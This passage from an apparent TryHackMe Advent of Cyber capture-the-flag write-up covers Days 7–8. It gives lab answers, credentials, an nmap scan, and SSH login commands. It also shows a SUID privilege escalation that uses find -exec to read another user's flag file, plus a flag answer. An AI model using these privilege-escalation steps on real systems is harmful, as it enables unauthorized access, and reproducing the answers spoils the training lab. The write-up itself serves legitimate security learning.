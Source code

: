    > Linux

3. What version of SSH is running?

   > 7.4

4. What is the name of the file that is accessible on the server you found running?

   For this question, I accessed the webserver that in run on the deployed machine, on port 999 (information from the nmap scan results). Once accessed, I could see the name of the file.

   ![screenshot_file](/2019AdventOfCyber/screenshots/day07/file.png?raw=true)

   > interesting.file

### Day 8: SUID Shenanigans

Deploy and SSH into the machine.

Username: holly

Password: tuD@4vt0G\*TU


Machine IP: 10.10.68.225

Scanned using command: `nmap 10.10.68.225 -p 1-65535`

[Scan results](https://github.com/pamhrituc/TryHackMe_Writeups/blob/master/2019AdventOfCyber/nmap_scan_results/day8_suid.log)

1. What port is SSH running on?

   > 65534

Logged into machine using SSH: `ssh holly@10.10.68.225 -p 65534`

2. *Find* and run a file as *igor*. Read the file /home/igor/flag1.txt

   Logged into machine using SSH: `ssh holly@10.10.68.225 -p 65534`
   Find command that searches for files that igor owns with read permission, and execute ls: `find / -user igor -perm -4000 -exec ls -ldb {} \; 2>/dev/null`
   Find command that lets us execute cat on the specified file: `find /home/igor/flag1.txt -exec cat '{}' \;`

   > THM{d3f0708bdd9accda7f937d013eaf2cd8}

3. Find another binary file that has the SUID bit set. Using this file, can you become the root user and read the /root/flag2.txt file?
